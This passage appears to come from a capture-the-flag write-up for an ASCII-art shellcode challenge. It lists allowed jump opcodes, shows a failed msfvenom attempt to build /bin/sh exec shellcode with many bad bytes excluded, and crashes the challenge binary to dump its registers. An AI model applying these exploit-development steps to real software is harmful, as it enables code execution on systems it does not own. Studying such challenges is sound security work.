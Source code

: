 ```  
db 0x7b XX jpo (parity odd)  
db 0x7c XX jl  
db 0x7d XX jge  
db 0x7e XX jg  
```

As a sanity check I tried making shellcode with just these bytes and
`msfvenom`, but as I suspected the problem was not that easy and couldn't
generate shellcode for me automatically.

```  
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b
'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x2b\x2c\x2e\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3b\x3f\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4c\x4d\x4e\x50\x51\x52\x53\x54\x55\x57\x58\x59\x5a\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'  
No platform was selected, choosing Msf::Module::Platform::Linux from the
payload  
No Arch selected, selecting Arch: x86 from the payload  
Found 10 compatible encoders  
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai failed with An encoding exception occurred.  
Attempting to encode payload with 1 iterations of generic/none  
generic/none failed with Encoding failed due to a bad character (index=25,
char=0x08)  
Attempting to encode payload with 1 iterations of x86/call4_dword_xor  
x86/call4_dword_xor failed with A valid encoding key could not be found.  
Attempting to encode payload with 1 iterations of x86/countdown  
Error: No valid set instruction could be created!  
```

As a last piece of information gathering, I intentionally crashed the program
around the 'jmp eax (shellcode)' instruction to see what the initial register
values were when we jumped to the shellcode.

```  
$ echo -e '\x00\x00\x00\xff' | LD_PRELOAD=/lib32/libSegFault.so ./chal   
Looks like valid ASCII art to me!!  
*** Segmentation fault  
Register dump:

EAX: f7be3000   EBX: 565fffbc   ECX: 00000000   EDX: f7eb989c  
ESI: f7eb8001   EDI: 00000000   EBP: ff936dd8   ESP: ff936dab

EIP: f7ce3004   EFLAGS: 00010282

CS: 0023   DS: 002b   ES: 002b   FS: 0000   GS: 0063   SS: 002b

Trap: 0000000e   Error: 00000006   OldMask: 00000000  
ESP/signal: ff936dab   CR2: 00000000

FPUCW: ffff037f   FPUSW: ffff0000   TAG: ffffffff  
IPOFF: 00000000   CSSEL: 0023   DATAOFF: 0000ffff   DATASEL: 002b

ST(0) 0000 0000000000000000   ST(1) 0000 0000000000000000  
ST(2) 0000 0000000000000000   ST(3) 0000 0000000000000000  
ST(4) 0000 0000000000000000   ST(5) 0000 0000000000000000  
ST(6) 0000 0000000000000000   ST(7) 0000 0000000000000000

```